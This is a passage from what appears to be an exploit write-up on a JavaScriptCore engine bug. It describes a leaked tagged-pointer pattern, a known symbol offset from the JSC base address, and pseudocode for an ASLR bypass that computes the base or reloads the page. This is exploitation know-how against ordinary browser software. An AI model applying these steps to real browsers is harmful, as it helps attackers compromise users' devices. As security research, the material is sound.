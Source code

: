 <img src="/leakedptr.png">

lucky for us, the leaked pointer would always take the form of:

```
 0x17ff000107d831c8
 0x17ff000XXXXXXXXX
```

<br>

Where 0xXXXXXXXXX, would be our valid pointer.<br>
those tagged pointers that we can leak, are valid pointers <br>
allocated in JSC memory region.<br>
some of the time its JavaScriptCore'JSC::Symbols::iteratorSymbol<br>
in the following asseambly.<br>

```
->  0x11071c0f0 <+0>:  xorl   $0xf000000, %eax          ; imm = 0xF000000
```

i guess that the code generated to our optimized function needs to inline this.<br>
furthermore, this Symbol sits in a known offset from jsc base address: 0xf6b0f0.<br>
so its it's fairly easy to derive the following (consider that other generic pointers can be leaked):<br><br>

***aslr bypass:***

```
leak address
if address.ends_with(known_signature)
  compute: addr - known_offset
else
  location.reload()
```
